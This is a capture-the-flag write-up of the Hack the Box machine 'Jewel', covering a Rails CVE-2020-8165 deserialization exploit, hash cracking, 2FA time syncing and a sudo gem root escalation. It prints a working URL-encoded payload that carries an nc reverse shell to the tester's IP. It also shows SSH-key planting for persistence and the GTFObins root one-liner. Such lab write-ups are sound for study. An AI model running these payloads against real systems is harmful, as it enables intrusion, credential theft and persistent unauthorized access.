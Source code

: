 ```yaml
---
weight: 1
title: "Hack the Box - Jewel"
date: 2021-02-15T21:29:01+08:00
lastmod: 2021-02-15T21:29:01+08:00
draft: false
author: "HcKy"
authorLink: ""
description: "Hack the Box Jewel Write-up"
resources:
- name: "featured-image"
  src: "jewel1.jpg"
  
  
tags: ["Linux", "Web", "Git", "CVE", "HTB"]
categories: ["write-ups"]

lightgallery: true
linkToMarkdown: false

toc:
  auto: false
---
```


<div style="text-align:center">Write-up of Jewel - Difficulty : Medium </div>

<!--more-->

>Experience is a jewel, and it need be so, for it is often purchased at an infinite rate.  
>  
> -William Shakespeare  

## 1. Overview

Jewel is a Linux box running gitweb as well as a blog site.

This version of gitweb is running a vulnerable version of Ruby on Rails. 
 
This CVE allowed for remote code execution (RCE) on the victim box and attain a reverse shell as user Bill.  

A sqldump accessible by the user in the backup folder allowed us to obtain the password hash for Bill. 

Cracking the hash and utilizing Bill's 2FA secret allowed us to break into the root account utilizing the gem command.


## 2. Recon

### 2.1 Nmap
As always we start off running a port scan with nmap and we see that ports 22, 8000, and 8080 are open.

``` bash 
 nmap -sC -sV -T4 10.10.10.211 
```

![nmap](nmap.png)

  
We can see that SSH is open, Apache is running on 8000, and nginx is running on 8080.

### 2.2 Websites
#### 2.2.1 Gitweb
Next we'll go check out what sites those webservers are hosting.

If we open our browser and go to 10.10.10.211:8000 we get redirected to **/gitweb/**.
It looks like there's a project called "Bl0G!"
We can view the contents of the project by following the hyperlinks and we come to the gem file which tells us the Rails version is 5.2.2.1.

![gem](rubyversion.png)

After some google research we find that this version of Ruby has a vulnerability publicly disclosed as [CVE-2020-8165](https://nvd.nist.gov/vuln/detail/CVE-2020-8165).

Thanks to the PoC on github by [masahiro331](https://github.com/masahiro331/CVE-2020-8165) we can see what exactly needs to be done to exploit this version of Ruby and get our code running on the box.

```
$ curl 'localhost:3000/users?new=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%15%60touch+%2Ftmp%2Frce%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T'
```

Great! So we have a possible exploit, but where are we supposed to put it? 
For that we go check out the other site this box is hosting.

#### 2.2.2 Bl0G!

So we head on over to 10.10.10:211:8080 in our browser and it brings us to the "Bl0G" page.

![Bl0G!](blog.png)

After some poking around we find we can make a user account and login.
We're able to read all the posts but don't seem to be able to interact with them in any other way.

## 3. Exploitation

Since we already know what exploit we're going to try we can start looking for a place to send it.

The only text field that we found that was able to be updated was the username field under our profile after we are logged in to the site.


After opening up Burp Suite and configuring our browser to use it as our proxy we're able to intercept the web traffic between us and the blog.


When we go to update our username we can edit that request before sending it to the server and insert that PoC script from before replacing code execution section with our reverse shell.
```
%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22U%60rm+%2Ftmp%2Ff%3Bmkfifo%20%2ftmp%2ff%3bcat%20%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.14.64+1234+%3e%2Ftmp%2ff%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
```

![burp](burp.png)


Before sending this off we need to start our netcat listener with **nc -lvnp 1234**.
Once that's listening we can send off that request and reload the webpage.

After the reload we get a connection on our listener as user Bill.


![shell](billshell.png)

This connection is just a simple shell so we can upgrade it using the python pty module.

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

First thing to do is a quick list of all files in Bill's home directory and take note of what we see.
If this write-up was helpful consider leaving some respect on my HTB profile.
![bill-home](billhome.png)

## 4. Privilege Escalation

We already have a user account but the ultimate goal is to own root.


After some enumeration in the common directories we find a sqldump in **/var/backups**.
When we read that file it looks like there's hashes for two different users. So let's grab those:

![sqldump](sqldumphash.png)

If we run **getent passwd** as Bill we can see that Jennifer doesn't appear to be a user on the box.
With that in mind we can try cracking Bill's hash first and save the other one for later, it might still be useful if it's crackable.

Once we copy the hash to our host machine we can run John the Ripper against it using the rockyou password list.

```bash
sudo john ./bill.hash --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```
![john](john.png)

With Bill's password we attempted to connect via SSH but it seems to still be asking for a SSH key. I looked at Bill's home directory and there was no **.ssh** folder so I ran a quick **ssh-keygen** and echoed my **id_rsa.pub** into the newly created **authorized\_keys** file.

Now that we have Bill's password we can run a **sudo -l** to see if he can run any commands as root.
After putting in Bill's password the box asks for a 2FA code.  For that we go back to Bill's home directory where we saw that **.google_authenticator** file when we first gained access.

If we manually input the 2FA secret into the authenticator add-on for Chrome it will give us an authentication code to use.   
Unfortunately for us there still seems to be an error when using it.

![error](googleauth2.png)

Clearly the 2FA code didn't work. Since the codes are time based the first thing to look at what the time is set to on Jewel with **timedatectl** as well as our host machine.

![time](timedate1.png)

Well we're clearly not matching so we'll have to set our time-zone and time to match Jewel for our 2FA codes to work.
```bash
timedatectl set-timezone Europe/London

if the time is off you may need

timedatectl set-time XX:XX:XX 

to synchronize the times
```
After we sync our times the 2FA codes work and we can finally run our **sudo -l** commmand.

![sudo](sudocorrect.png)

Looks like Bill can run the **gem** command with sudo.

Let's head over to [GTFObins](https://gtfobins.github.io/) to see if there's a way to get root with this command.

Looks like if we run one simple command we can hop over to root. So let's do it.

```bash
sudo gem open -e "/bin/sh -c /bin/sh" rdoc
```
![sudogem](sudogem.png)

And just like that we have root.

As usual we can insert our **id_rsa.pub** key into root's **/root/.ssh/authorized\_keys** folder to we can get access without having to utilize Bill's user account.

## Conclusion

1. Make sure your project documents are locked down and your systems are patched.
2. You should never leave password hashes unprotected in an easily accessible location.
3. If you're going to utilize 2FA don't keep your 2FA secret in a folder on your computer.

<br>
<br>
<br>

<div style="text-align:center"><a href="https://www.hackthebox.eu/home/users/profile/190484"><img src="https://www.hackthebox.eu/badge/image/190484"></a></div>
<div style="text-align:center">If this write-up was helpful consider leaving some respect on my HTB profile.</div>
